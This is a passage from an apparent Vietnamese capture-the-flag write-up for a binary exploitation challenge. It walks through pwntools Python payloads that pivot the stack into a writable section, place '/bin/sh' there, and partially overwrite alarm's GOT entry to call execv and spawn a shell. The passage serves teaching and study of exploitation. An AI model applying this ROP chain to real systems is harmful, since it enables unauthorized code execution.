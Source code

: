 Và sau khi chạy lại

![alt text](image-8.png)

Ta sẽ thấy lúc này nó return vào một dãy kí tự `B` của ta, tức là ở đầu đoạn của payload 2, và ta chỉ cần làm là thay đổi payload 2 lại một chút để ta có thể thực hiện lần read tiếp theo, và ở lần read này sẽ là lần read mà ta setup các argument cần thiết để thực thi `execv` nên mình có thể cho nó read vào bất cứ đâu cũng được miễn là né vùng `GOT` và vùng đó phải có `rw-`

### Setup argument

Thì mình sẽ chọn `rw_section`, vì vùng này chưa có dữ liệu gì nên ta có thể read vào thoải mái

```py
    pl = flat(
        rw_section + 0x20,             # saved rbp 3
        read_gadget,                   # saved rip 3
        b'B' * 0x10,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Và ở lần read cuối cùng này dữ liệu sẽ bắt đầu từ `rw_section` và việc ta cần làm là đặt chuỗi `/bin/sh` ở đầu `rw_section` và sử dụng `pop_rdi`, để setup `rdi` và call `alarm@PLT`

```py
    pl = flat(
          b'/bin/sh\0',                  # saved rbp 5
          pop_rdi,                       # saved rip 5
          rw_section,
          exe.plt.alarm,
          rw_section,                    # saved rbp 4
          read_gadget,                   # saved rip 4
    )

    input("4th")
    sleep(0.5)
    s(pl)

    input("5th")
```